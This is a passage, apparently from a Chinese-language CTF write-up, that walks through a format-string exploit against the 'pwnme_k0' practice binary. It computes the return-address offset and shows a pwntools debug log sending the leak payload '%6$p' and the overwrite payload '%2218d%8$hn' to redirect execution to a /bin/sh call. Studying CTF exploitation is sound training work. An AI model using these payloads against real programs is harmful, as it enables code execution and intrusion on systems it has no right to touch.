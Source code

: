 0x00007fffffffddf0（r'b'p）  -   0x00007fffffffddb8(返回地址) = 0x38

获取

**根据相对偏移获取存储返回地址的地址**

则 只要获得在编写payload时   rbp -0x38 = 返回地址

修改0x400d74 为 /bin/sh 的地址  0x400d8AA 可直接修改前 8AA



故exp  编写逻辑

- 写入名字获取rbp，通过计算，获取返回地址长度

- 重新更改名字，改返回值为/bin/sh处地址



```shell
'/home/toor/Desktop/pwnme_k0'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x127 bytes:
    '**********************************************\n'
    '*                                            *\n'
    '*Welcome to sangebaimao,Pwnn me and have fun!*\n'
    '*                                            *\n'
    '**********************************************\n'
    'Register Account first!\n'
    'Input your username(max lenth:20): \n'
[DEBUG] Sent 0x9 bytes:
    '11111111\n'
[DEBUG] Received 0x24 bytes:
    'Input your password(max lenth:20): \n'
[DEBUG] Sent 0x5 bytes:
    '%6$p\n'
[DEBUG] Received 0x5f bytes:
    'Register Success!!\n'
    '1.Sh0w Account Infomation!\n'
    '2.Ed1t Account Inf0mation!\n'
    '3.QUit sangebaimao:(\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x64 bytes:
    '11111111\n'
    '0x7fff94bd6350\n'
    '1.Sh0w Account Infomation!\n'
    '2.Ed1t Account Inf0mation!\n'
    '3.QUit sangebaimao:(\n'
    '>'
[+] ret_addr:0x7fff94bd6318
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x2a bytes:
    'please input new username(max lenth:20): \n'
[DEBUG] Sent 0x9 bytes:
    00000000  18 63 bd 94  ff 7f 00 00  0a                        │·c··│····│·│
    00000009
[DEBUG] Received 0x2a bytes:
    'please input new password(max lenth:20): \n'
[DEBUG] Sent 0xc bytes:
    '%2218d%8$hn\n'
[DEBUG] Received 0x4c bytes:
```